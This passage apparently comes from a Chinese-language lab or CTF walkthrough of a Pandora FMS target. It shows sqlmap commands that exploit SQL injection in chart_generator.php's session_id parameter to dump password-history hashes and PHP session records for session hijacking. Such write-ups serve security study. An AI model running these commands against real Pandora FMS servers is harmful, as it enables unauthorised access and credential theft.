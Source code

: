 #### 列名

```shell
sqlmap -u "http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1" --batch -D pandora -T tpassword_history --columns  --threads 10

```

![image-20250403204812339](./Pandora/image-20250403204812339.png)

拿到密码之后破解不了，还有个session表，尝试替换session登录

```shell
sqlmap -u "http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1" --batch -D pandora -T tsessions_php --columns --dump  --threads 10
```

![image-20250405163143411](./Pandora/image-20250405163143411.png)

#### 数据

```shell
sqlmap -u "http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1" --batch -D pandora -T tpassword_history -C "id_pass,id_user,password" --dump  --threads 10

```

![image-20250403204832190](./Pandora/image-20250403204832190.png)
